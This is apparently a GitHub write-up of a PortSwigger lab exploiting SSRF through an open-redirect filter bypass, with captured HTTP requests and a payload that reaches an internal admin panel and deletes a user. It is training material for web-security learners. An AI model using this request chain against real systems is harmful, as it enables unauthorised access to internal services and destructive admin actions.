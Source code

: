 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/8f6cec54-dd55-49c7-be13-b836281b3ae0)


## Overview:

If the API used to make the back-end HTTP request supports redirections, you can construct a URL that satisfies the filter and results in a redirected request to the desired back-end target.

Suppose the application contains an open redirection vulnerability in which the following URL:

```http
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```
returns a redirection to:

```http
http://evil-user.net
```

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows: 

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

> The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing.



## Solution :


### Finding a openredirect vuln -

In this lab, below the **check-stock** feature we have 2 new options which is `Return to list` & `Next product`. It is a good indication that there might be a redirection happening to some other page.

Clicking on `Next product` , our browser sends a *GET* request as below

```http
GET /product/nextProduct?currentProductId=1&path=/product?productId=2 HTTP/2
Host: 0ada005b04660d8a820bf38e00030012.web-security-academy.net
Cookie: session=tCPCfXrz8JKmh5Pm8VORG7tKUvRB3Zbn; session=IQ2nI1FTVgV2PFdQP0KQmVYXogYiya4h
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ada005b04660d8a820bf38e00030012.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
We can see that there is a `path=` parameter which redirects to */product* page.

Let's try to test if there is **openredirect vulnerability** in this path parameter by trying to access the backend server at **http://192.168.0.12:8080**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0558b645-9fa1-4f24-b67b-dc77a62c73f1)

We get a `302 redirect` which confirms the openredirect vulnearbility.

### Access the /admin panel of backend server

When we click **check stock** feature, a *GET* request is sent to */product/stock* with a stockAPI parameter (`stockApi=/product/stock/check?productId=2&storeId=1`) in the body of the request.

```http
POST /product/stock HTTP/2
Host: 0ada005b04660d8a820bf38e00030012.web-security-academy.net
Cookie: session=tCPCfXrz8JKmh5Pm8VORG7tKUvRB3Zbn; session=IQ2nI1FTVgV2PFdQP0KQmVYXogYiya4h
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ada005b04660d8a820bf38e00030012.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0ada005b04660d8a820bf38e00030012.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```

Now provide the redirect path `/product/nextProduct?path=http://192.168.0.12:8080/admin` to the stockApi parameter(remove the `currentProductId=1` from the entire uri `/product/nextProduct?currentProductId=1&path=/product?productId=2`).

We get a `200 OK` response & we can able to access the admin panel.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3ee63dbb-39a6-4414-94ee-91bb87fbde05)

Lets delete the user carlos to solve the lab - `/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/86af38ae-63d5-4097-b573-5ed15655b3d1)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b4f7cae9-c570-498a-baae-d5dfecf71697)




































